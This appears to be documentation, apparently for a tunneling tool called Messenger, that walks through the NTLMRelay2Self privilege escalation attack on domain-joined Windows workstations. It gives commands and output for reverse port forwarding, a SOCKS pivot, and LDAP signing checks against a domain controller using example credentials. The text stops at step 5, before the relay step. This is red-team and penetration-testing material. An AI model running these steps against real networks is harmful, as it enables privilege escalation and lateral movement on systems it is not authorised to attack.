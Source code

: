 
### NTLMRelay2Self

[NTLMRelay2Self](https://github.com/med0x2e/NTLMRelay2Self) is a type of privilege escalation attack where an attacker performs authentication coercion and LDAP relay attacks in order to gain SYSTEM-level access to the compromised system. This attack requires the following:
- Low-privileged access on a domain-joined Windows workstation
- Ability to trigger-start the WebClient service on the workstation
- Ability to coerce authentication (via EFS, spooler, etc.) on the workstation
- LDAP signing or LDAPS channel binding not enforced on a DC
- Ability to perform computer-takeover primitive (RBCD or Shadow Credentials)

1. Start a Messenger client up with a reverse port forward for a high port. In this example, we will be using TCP/8888, however, any other high port not already in use should work. Since this is NTLMRelay2**self**, we only need to bind the reverse port forward to 127.0.0.1 on the Messenger client side.
```
> python3.exe messenger-client 192.168.1.100:8080 ZDXgoqyVXqDpJyBMJt 127.0.0.1:8888:127.0.0.1:8888
```
2. Start up a SOCKS proxy on the Messenger server for the new Messenger client that checked in:
```
[+] WebSocket Messenger `PWnauryxxD` is now connected.
(messenger)~# PWnauryxxD
(PWnauryxxD)~# socks 1080
[*] Attempting to forward (127.0.0.1:1080) -> (*:*).
[+] Messenger PWnauryxxD now forwarding (127.0.0.1:1080) -> (*:*).
(PWnauryxxD)~#
```
3. Test to make sure LDAP signing or LDAPS channel binding is disabled on a Domain Controller. NetExec ldap-checker module or [LdapRelayScan](https://github.com/zyn3rgy/LdapRelayScan) can be used.
```
$ proxychains netexec ldap dc.borgar.local -u lowbie -p P@ssw0rd -M ldap-checker
[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.14
[proxychains] DLL init: proxychains-ng 4.14
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  dc.borgar.local:389  ...  OK
LDAP        224.0.0.1       389    DC               [*] Windows 10 / Server 2019 Build 17763 (name:DC) (domain:borgar.local)
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  dc.borgar.local:389  ...  OK
LDAP        224.0.0.1       389    DC               [+] borgar.local\lowbie:P@ssw0rd 
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  dc.borgar.local:389  ...  OK
LDAP-CHE... 224.0.0.1       389    DC               LDAP signing NOT enforced
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  dc.borgar.local:636  ...  OK
LDAP-CHE... 224.0.0.1       389    DC               LDAPS channel binding is set to: Never
```

4. Set up the reverse port forward: 127.0.0.1:8888 on the Messenger client host -> 127.0.0.1:8888 on the Messenger server
```
(PWnauryxxD)~# remote 127.0.0.1:8888
[*] Messenger PWnauryxxD now forwarding (*:*) -> (127.0.0.1:8888).
```
5. Check the status of the WebClient service. By default it will be installed on Windows workstations, but not started.
```powershell
Get-Service -ServiceName WebClient

Status   Name               DisplayName
------   ----               -----------
Stopped  WebClient          WebClient
```